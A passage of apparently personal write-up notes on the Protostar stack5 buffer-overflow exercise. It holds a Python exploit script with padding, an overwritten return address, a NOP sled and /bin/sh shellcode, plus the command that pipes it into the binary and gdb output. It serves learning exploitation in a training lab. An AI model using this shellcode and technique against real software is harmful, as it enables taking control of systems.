     padding     = "A" * 76
    # eip         = "\xf0\xfc\xff\xbf"
    eip         = struct.pack("I", 0xbffffcf0+30) # add 30 due to unreliability in stack
    breakpoints = "\xCC" * 4
    nopsled     = "\x90" * 100
    exploit     = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"

    print padding+eip+nopsled+exploit
    ```

- Command:

    `(python ex.py ; cat) | /opt/protostar/bin/stack5`

- Some explanations:

    1. The reason why you need to add the nopsled along with the +30 at our esp location is because due to unreliability of stack memory address affected by many factors

        - In the video that LiveOverflow did the walkthrough, it was due to the environmental variables.

        - When I tried running the exploit in gdb even when I was not in the `/opt/protostar/bin` directory but the `/home/user` directory, the exploit was still working (which should not as shown in the video when LiveOverflow ran stack5 in the `/tmp` directory). Hence, I suspect that there are other factors affecting the reliability of the stack as well.
        
        - When I actually attempted to reset the environmental variables via `set -i` and run the executable with the input string in bash, I would encounter segmentation faults instead of hititng the breakpoint as seen in minute 8:53 of the video (you can apparently do it in gdb using `(gdb) set exec-wrapper /usr/bin/env -i` as referenced from the comments in the video).

    2. You need the `cat` at the end to prevent the shell from closing and also to allow you to pipe commands in after you have executed `/bin/sh` shellcode in the stack buffer!

    3. This is what happend without the `cat` command (note that doing this will replace the executable being ran in gdb to /bin/dash and to reload stack5, run `file stack5`)

        ```
        python ex.py | /opt/protostar/bin/stack5
        python ex.py > /tmp/output
        ...
        (gdb) r < /tmp/output
        The program being debugged has been started already.
        Start it from the beginning? (y or n) y
        Starting program: /opt/protostar/bin/stack5 < /tmp/output
        
        Breakpoint 1, 0x080483da in main (argc=Cannot access memory at address 0x41414149
        ) at stack5/stack5.c:11
        11	in stack5/stack5.c
        (gdb) c
        Continuing.
        Executing new program: /bin/dash
        
        Program exited normally.
        ```
